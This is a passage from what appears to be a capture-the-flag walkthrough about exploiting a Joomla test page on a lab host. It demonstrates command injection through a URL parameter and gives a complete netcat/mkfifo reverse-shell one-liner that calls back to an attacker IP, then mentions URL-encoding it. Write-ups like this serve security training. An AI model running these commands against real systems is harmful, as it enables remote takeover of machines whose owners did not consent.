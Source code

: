 ```
http://10.10.32.200/joomla/_test/index.php?plot=;ls -l
```

**voila !** We are able to execute command !

![9](img/9.png)

Since we have command execution ability, we can spawn a reverse shell using payload below:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.2.85 18888 >/tmp/f
```

As this is part of URL; to avoid bad interpretation of space or special character, we use URL encode to encode our payload

![10-1](img/10-1.png)

